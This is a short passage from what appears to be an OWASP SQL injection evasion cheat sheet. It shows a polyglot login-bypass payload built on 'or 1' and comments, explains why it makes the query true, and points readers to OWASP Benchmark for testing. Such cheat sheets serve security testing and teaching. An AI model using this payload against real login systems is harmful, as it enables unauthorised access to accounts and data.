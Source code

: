 SELECT \* FROM login WHERE username=' or 1-- -' or 1 or '1"or 1 or" '
..... the "or 1" part make the query true, and the other parts are
considered as the comparison strings. same with the double quotes.
SELECT \* FROM login WHERE username=" or 1-- -' or 1 or '1"or 1 or" "

## Benchmark

Please use *' Benchmark*' and make you own SQLi Strings and test your
different test cases on
[Benchmark](https://www.owasp.org/index.php/Benchmark)

<hr>

*If you have any SQLi Quires which is Missed above Please help to
Contribute [Mail Down](https://www.owasp.org/index.php/Dhiraj_Mishra)
and be a part of **The Popular SQLi Evasion CheatSheet.***

## Contributor

Dhiraj Mishra (mishra.dhiraj@owasp.org)
